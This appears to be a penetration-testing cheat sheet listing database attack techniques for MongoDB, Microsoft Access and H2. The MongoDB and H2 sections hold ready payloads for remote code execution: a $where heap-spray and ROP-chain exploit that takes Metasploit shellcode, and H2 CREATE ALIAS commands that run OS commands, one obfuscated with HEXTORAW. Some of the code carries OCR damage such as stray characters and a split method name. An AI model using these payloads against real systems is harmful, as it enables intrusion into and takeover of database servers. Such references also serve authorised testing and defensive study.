 ## MongoDB

- Connect: `mongo -p -u $USER $DB_NAME`
- RCE: <https://cxsecurity.com/issue/WLB-2013030212>
    ```javascript
    db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
    ```
- References:
    - <https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html>

## Microsoft Access

- MDB Tools - Read Access databases on \*nix: <https://github.com/brianb/mdbtools>
    ```bash
    mdb-tables backup.mdb | grep --color=auto user
    mdb-export backup.mdb tableName
    ```

## H2 

- Java code exec:
    ```sql
    CREATE ALIAS REVERSE AS 
    $$ String reverse(String s){ return new StringBuilder(s).reverse().toString();}$$;
    CALL REVERSE('Test');
    ```
- RCE:
    ```sql
    CREATE​ ​ALIAS​ SHELLEXEC ​AS​ $$ ​String​ shellexec(​String​ cmd) throws java.io.IOException { java.util.Scanner s = ​new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelim iter(​"\\A"​); return s.hasNext() ? s.next() : ""; }$$;
    CALL​ SHELLEXEC(​'id'​)
    ```
    ```sql
    CREATE ALIAS EXEC AS  
    $$ void e(String cmd) throws java.io.IOException {java.lang.Runtime rt= java.lang.Runtime.getRuntime();rt.exec(cmd);}$$
    CALL EXEC('whoami');
    ```
    ```sql
    CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException', HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime(); rt.exec(cmd);',HEXTORAW('007d'));
    CALL EXEC('whoami');
    ```
